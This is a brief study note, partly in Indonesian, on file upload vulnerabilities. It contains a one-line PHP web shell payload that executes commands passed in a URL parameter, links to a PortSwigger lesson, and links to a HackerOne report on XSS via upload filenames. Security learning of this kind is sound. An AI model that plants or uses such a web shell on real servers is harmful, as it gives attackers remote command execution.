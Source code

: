 # File Upload

## Apa itu ?

## Payload
|Tech|Payload|
|---|---|
|PHP|<?php system($_GET["cmd']); ?>|

## Resource
- [File Upload Vulnerability - Portswigger Academy](https://portswigger.net/web-security/file-upload)

## Writeup
|Writeup|Ket|
|---|---|
|[XSS via unicode characters in upload filename](https://hackerone.com/reports/179695)|menggunakan unicode|
